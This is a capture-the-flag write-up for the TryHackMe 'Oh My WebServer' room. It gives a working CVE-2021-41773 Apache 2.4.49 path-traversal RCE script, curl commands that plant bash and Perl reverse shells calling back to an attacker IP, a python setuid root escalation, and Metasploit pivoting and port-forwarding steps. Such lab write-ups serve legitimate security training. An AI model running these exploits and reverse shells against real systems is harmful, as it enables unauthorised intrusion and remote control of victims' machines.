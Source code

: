```yaml
---
layout: post
title:  "Oh My WebServer"
categories: [tryhackme]
tags: [linux]
---
```



You can find this machine here : `https://tryhackme.com/room/ohmyweb`

### Port Scan

```bash
┌──(kali㉿Zeus)-[~]
└─$ sudo nmap -Pn -sV 10.10.138.13

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
```

### Directory Scan

```bash
┌──(kali㉿Zeus)-[~]
└─$ dirb http://10.10.138.13/                                            

---- Scanning URL: http://10.10.138.13/ ----
+ http://10.10.138.13/cgi-bin/ (CODE:403|SIZE:199)   
```

### Searching

Search : `Apache httpd 2.4.49 exploit`
Result : `https://www.exploit-db.com/exploits/50383`

### Apache HTTP Server 2.4.49 - Path Traversal & RCE

CVE : `CVE-2021-41773`

```bash
#!/bin/bash

if [[ $1 == '' ]]; [[ $2 == '' ]]; then
echo Set [TAGET-LIST.TXT] [PATH] [COMMAND]
echo ./PoC.sh targets.txt /etc/passwd
exit
fi
for host in $(cat $1); do
echo $host
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; $3" "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e$2"; done
```

```bash
┌──(kali㉿Zeus)-[~/Desktop]
└─$ ./ohmyweb.sh targets.txt /bin/sh whoami
10.10.138.13
daemon
```

![image]( /assets/img/ohmy/1.PNG)

#### Reverse Shell Creation

Source : `https://www.youtube.com/watch?v=WSVcuV2Wc58`

```bash
curl 'http://ohmyweb.thm/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh' --data 'echo Content-Type: text/plain; echo; echo "#!/bin/bash" > /tmp/alienum.sh'
```

```bash
curl 'http://ohmyweb.thm/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh' --data 'echo Content-Type: text/plain; echo; echo "bash -i >& /dev/tcp/10.18.45.56/4444 0>&1" >> /tmp/alienum.sh'
```

```bash
curl 'http://ohmyweb.thm/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh' --data 'echo Content-Type: text/plain; echo; cat /tmp/alienum.sh'
```

```bash
curl 'http://ohmyweb.thm/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh' --data 'echo Content-Type: text/plain; echo; bash /tmp/alienum.sh'
```

![image]( /assets/img/ohmy/2.PNG)

#### Better Shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Control + z
stty raw -echo;fg
ENTER
export HOME=/home
export TERM=xterm
```

### LinPeas 


![image]( /assets/img/ohmy/4.PNG)

```bash
Files with capabilities (limited to 50):
/usr/bin/python3.7 = cap_setuid+ep
```

#### Linux Capabilities - Privileges Escalation 

```bash
daemon@4a70924bafa0:~$ getcap -r / 2>/dev/null
/usr/bin/python3.7 = cap_setuid+ep
daemon@4a70924bafa0:~$
```

```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

### User Owned - Proof

![image]( /assets/img/ohmy/5.gif)


### Found IP

![image]( /assets/img/ohmy/8.PNG)

### Shell to Meterpreter

- my vm

```bash
systemctl start postgresql
```

```bash
msfconsole -x "use exploit/multi/handler;set PAYLOAD cmd/unix/reverse_perl;set LHOST 10.18.45.56;set LPORT 5555;exploit"
```

- target

```bash
perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"10.18.45.56:5555");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
```

- my vm after session 1 opened

```bash
background
use post/multi/manage/shell_to_meterpreter
set SESSION 1
exploit
sessions 2
```

![image]( /assets/img/ohmy/6.PNG)

- my vm after meterpreter 

```bash
run autoroute -s 172.17.0.0/16
```

![image]( /assets/img/ohmy/7.PNG)

### MSF -  Port Scan

```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 172.17.0.0/16
set THREADS 50
set PORTS 80-9000
run
```

![image]( /assets/img/ohmy/10.PNG)

### Port Forwarding

```txt
portfwd add -l <local port (yours)> -p <victim port we want to access> -r <victim IP address>
```

```bash
portfwd add -l 8001  -p 80 -r 172.17.0.2
```

![image]( /assets/img/ohmy/11.PNG)

![image]( /assets/img/ohmy/12.PNG)

